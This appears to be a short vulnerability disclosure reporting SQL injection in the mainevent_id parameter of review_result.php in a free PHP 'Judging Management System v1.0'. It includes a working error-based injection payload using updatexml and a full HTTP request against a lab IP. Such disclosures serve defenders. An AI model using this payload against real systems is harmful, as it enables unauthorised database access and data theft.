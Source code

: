 # Judging Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/review_result.php?mainevent_id=

Vulnerability location: /php-jms/review_result.php?mainevent_id=, mainevent_id

dbname =jms_db

[+] Payload: /php-jms/review_result.php?mainevent_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+// Leak place ---> mainevent_id

​```sql
GET /php-jms/review_result.php?mainevent_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
​```

![image](https://user-images.githubusercontent.com/54017627/206375940-a8615afb-9665-4155-b3c0-27f1bd91c856.png)

